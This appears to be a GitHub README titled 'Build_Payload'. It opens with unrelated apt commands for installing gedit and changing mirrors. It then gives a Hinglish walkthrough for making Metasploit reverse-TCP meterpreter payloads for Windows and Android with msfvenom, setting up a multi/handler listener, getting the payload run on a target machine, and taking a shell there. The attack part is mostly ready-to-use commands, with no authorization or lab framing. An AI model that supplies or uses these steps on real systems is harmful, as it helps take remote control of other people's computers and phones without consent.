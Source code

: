 # Build_Payload

1. **Update Package Index**: Start by updating the package list to ensure that you have the latest information about available packages.

    ```bash
    sudo apt update
    ```

2. **Upgrade Installed Packages**: You can also upgrade any existing packages, which might help resolve dependencies.

    ```bash
    sudo apt upgrade -y
    ```

3. **Install gedit**: Now, try installing `gedit` again.

    ```bash
    sudo apt install gedit -y
    ```

4. **Change the Repository Mirror**: If you still face issues, it might be worth changing the package repository mirror. Here’s how to do it:

   - Open the sources list file:

     ```bash
     sudo nano /etc/apt/sources.list
     ```

   - Look for lines that start with `deb` and change the URLs to a different mirror. For example, you can replace `us.archive.ubuntu.com` with `archive.ubuntu.com` or any other mirror that’s geographically closer to you.

   - After editing, save and exit (in nano, you can do this by pressing `CTRL + O`, then `Enter`, and `CTRL + X`).
  
<hr>

Metasploit ke saath payload banane ke liye, aapko basic steps ko follow karna hoga. Hinglish mein main aapko simple tareeke se samjha deta hoon:

### 1. **Install Metasploit:**
   Pehle to aapko Metasploit framework install karna hoga. Agar aapke paas pehle se nahi hai, toh yeh command run karo Ubuntu ya Kali Linux mein:
   ```bash
   sudo apt update && sudo apt install metasploit-framework
   ```
   ```bash
   snap install metasploit-framework
   ```
   Isse Metasploit install ho jayega.

### 2. **Start Metasploit:**
   Jab install ho jaye, Metasploit ko start karne ke liye yeh command run karo:
   ```bash
   msfconsole
   ```
   Thodi der mein Metasploit ka console khul jayega.

### 3. **Payload Create Karna:**
   Ab aap payload banane ke liye `msfvenom` tool ka use karoge. Msvenom ka use aapko ek custom payload banane ke liye hota hai. Example ke liye, agar aap Windows ke liye ek reverse TCP payload banana chahte ho, toh yeh command run karo:

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=<Port> -f exe > /path/to/save/payload.exe
   msfvenom -p android/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=4444 R > /path/to/payload.apk
   ```
   - **`LHOST`**: Aapka local IP address jisme payload connect karega (aap `ifconfig` se IP check kar sakte ho).
   - **`LPORT`**: Wo port jisme reverse connection aayega (e.g., 4444).
   - **`-f exe`**: File format EXE set karta hai, kyunki yeh Windows ke liye payload hai.

   Example:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > /home/user/mypayload.exe
   ```

### 4. **Set Up Listener in Metasploit:**
   Jab payload bana liya, ab Metasploit mein ek listener set karna padega jo payload se connection accept kare. Iske liye Metasploit console mein yeh steps follow karo:

   ```bash
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <Your IP>
   set LPORT <Port>
   exploit
   ```
   Yeh listener reverse connection ke liye ready karega.

### 5. **Deliver the Payload:**
   Ab aapko payload target machine mein run karwana hoga. Jab wo payload execute karega, to reverse connection aapke Metasploit console mein aayega.

### 6. **Session Start:**
   Jab target machine pe payload run hoga, aapke listener pe ek meterpreter session shuru ho jayega. Uske baad aap target machine pe various commands run kar sakte ho jaise:
   ```bash
   sysinfo
   ```
   System information ke liye, ya:
   ```bash
   shell
   ```
   Shell access ke liye.

### Summary:
1. Metasploit install karo.
2. Msvenom se payload banao.
3. Listener setup karo Metasploit mein.
4. Payload target machine pe run karvao.
5. Reverse connection aake system access karlo.

Bus, is tarah aap Metasploit se ek payload create karke use kar sakte ho.
